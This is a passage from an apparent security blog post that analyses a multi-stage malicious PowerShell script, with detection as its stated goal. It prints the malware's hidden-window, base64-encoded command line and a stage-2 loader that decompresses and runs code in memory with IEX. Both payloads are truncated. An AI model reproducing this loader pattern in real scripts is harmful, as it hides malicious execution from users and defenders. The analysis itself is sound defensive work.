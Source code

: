 ```yaml
---
title: "Unmasking Malware: From PowerShell Tactics to Sysmon Detection"
date: 2023-08-11
categories: [Malware Analysis, Powershell]
tags: [Malware Analysis, Sysmon, Yara, Sigma, Powershell]
image:
  path: /assets/img/unmasking-malware/powershell.jpg
---
```


In today's cybersecurity landscape, the increasing sophistication of malicious scripts and their multi-layered functionalities are becoming a pertinent threat. One such complex example recently caught our attention - a multi-stage malicious PowerShell script that intricately navigates its way into a system, using a combination of obfuscation, encoding, dynamic code execution, and potential elevation techniques. In this deep-dive, we will unravel the layers of this script, analyze its intent, examine its methodology, and understand its potential impact on targeted systems. From using Base64 encoding as a smokescreen to the potential implications of dynamic code injections, join us as we dissect and demystify this recent find.

## Analyzing Malware

### Stage 1

```powershell
Process: powershell.exe
Process command-line:
C:\Windows\system32\WindowsPowershell\v1.0\powershell.exe -nop -w hidden -enc
JABzAD0ATgBlAHcALQBPAGIAagBl...
```

1. The **`powershell.exe`** command is invoked with certain parameters:
    - **`nop`** stands for No Profile, meaning the PowerShell session is launched without any user-specific profiles.
    - **`w hidden`** launches PowerShell with a hidden window, so the user doesn't see it.
    - **`enc`** is short for EncodedCommand. It tells PowerShell to expect the command as a base64-encoded string.
2. The long string that follows the **`enc`** switch is the actual command, base64-encoded. PowerShell supports this encoding to allow complex commands to be passed easily and avoid issues with quoting and escaping. But in this case, it's also clearly used to obfuscate the command to make it harder to understand what it's doing, a common technique used in malware.

### Stage 2

I decoded base64 string. Its because its given to powershell and wanted powershell to decode.

```powershell
$s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("H4sIAAAAAAAAAK1Xa2/iShL9..."));
IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

During the second stage of the investigation, the team utilized a PowerShell script to execute a specific process. This PowerShell script makes use of the **`New-Object`** command to instantiate objects from .NET classes.
